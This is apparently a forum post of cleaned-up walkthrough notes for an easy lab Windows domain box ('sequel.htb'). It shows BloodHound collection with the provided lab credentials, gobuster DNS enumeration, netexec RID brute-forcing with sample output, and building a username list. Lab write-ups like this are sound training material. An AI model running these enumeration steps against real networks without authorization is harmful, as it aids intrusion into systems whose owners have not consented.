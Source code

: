 I was doing the box again cleaning up my notes, if you're messing up or missing something maybe this will help  
It is an easy box so have at it fo' free  
  
I may have copied something down wrong its just cleaned up notes so lemm know....  
  
[ Start! ]  
As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su  
  
[https://jumpshare.com/viewer/xlsx](https://jumpshare.com/viewer/xlsx) <----- keep this in mind  
  
  
// export variables like ip pass and such to make life easy.....  
// First things first we got creds sooo python bloodhound!  
// Get everything from Rose's perspective it may be overkill on an easy, it may not be...  
  
$ bloodhound-python -d sequel.htb -v --zip -c ALL -u rose -p KxEPkKe6R8su -d sequel.htb -dc dc01.sequel.htb -ns ${ip}  
  
// This may be something that you need to do for SMB idk....  
  
edit /etc/samba/smb.conf  
  
Add the following under global:  
  client min protocol = CORE  
  client max protocol = SMB3  
  
  
  
/* gobuster dns to find the DC */  
  
──(kali㉿Senbonzakura)-[~/escape]  
$ gobuster dns -d sequel.htb -w ~/lists/onlyfansubs-top10000.txt -r sequel.htb:53  
  
  
Found: forestdnszones.sequel.htb  
                                                                                 
Found: domaindnszones.sequel.htb  
                                                                                 
Found: dc01.sequel.htb  
  
  
// enumerate users with netexec....  
  
[make userlist ]  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ netexec smb sequel.htb -p ${pass} -u rose --rid-brute |tee output.txt  
  
SMB                      10.129.38.68    445    DC01             
[*]Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)  
SMB                      10.129.38.68    445    DC01            [+] sequel.htb\rose:KxEPkKe6R8su  
SMB                      10.129.38.68    445    DC01            498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)  
SMB                      10.129.38.68    445    DC01            500: SEQUEL\Administrator (SidType  
  
<snip>-------------------------------------------------------------------------</snip>  
  
//Now make the output.txt into a useable userlist  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ grep -oP '(?<=SEQUEL\\)[^ ]+' output.txt > usernames.txt  
  
